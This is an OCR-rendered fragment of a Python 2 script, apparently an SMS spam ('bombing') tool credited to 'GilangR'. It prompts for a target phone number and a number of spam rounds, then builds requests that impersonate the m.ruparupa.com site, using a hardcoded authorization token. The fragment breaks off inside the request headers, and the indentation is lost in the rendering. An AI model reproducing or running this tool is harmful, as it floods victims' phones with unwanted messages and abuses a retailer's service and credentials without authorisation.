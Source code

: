   ____                         __        __    

 / ___| _ __   __ _ _ __ ___   \ \      / /_ _ 

 \___ \| '_ \ / _` | '_ ` _ \   \ \ /\ / / _` |

  ___) | |_) | (_| | | | | | |   \ V  V / (_| |

 |____/| .__/ \__,_|_| |_| |_|    \_/\_/ \__,_|

       |_|                                     

                   '''+W+'Creator : ./GilangR\n\t\t   YT :Gilang ramadhan')

                   

def RupaRupa():

print

MesinTik(C+'\t SPAM RUPA RUPA')

MesinTik(W+'\t================')

print

number = raw_input(''+C+'MASUKKAN NOMOR TARGET'+W+' ('+H+' Ex :'+C+' 0812xxxx '+W+') : ') 
jumlah = input(''+C+'JUMLAH SPAM'+W+' ('+H+' Ex :'+C+' 3 '+W+') : ')

print

MesinTik_2(''+C+'-------------- '+W+'Starting'+C+' --------------')

print

hitung = len(number)

if hitung < 9:

print

print(M+'Nomor Tidak Valid !')

sys.exit()

for x in range(jumlah):

try:

headers_1 = {

'User-Agent' : 'Mozilla/5.0 (Linux; Android 5.1.1; AFTT Build/LVY48F; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/49.0.2623.10',

'Accept' : 'application/json',

'Origin' : 'https://m.ruparupa.com',

'Referer' : 'https://m.ruparupa.com/my-account',

'authorization' : 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1dWlkIjoiYjMzZTk5NjctMjdhMy00ZjkxLWE2M2MtM2M4NzMyZTZhOTU2IiwiaWF0IjoxNTgwNjM2ODI0LCJpc3MiOiJ3YXBpLnJ1cGFydXBhIn0.pC9EDy_79GIDd4NOJKZP2kH5EjPdUK5VGUn59CzsdG0',
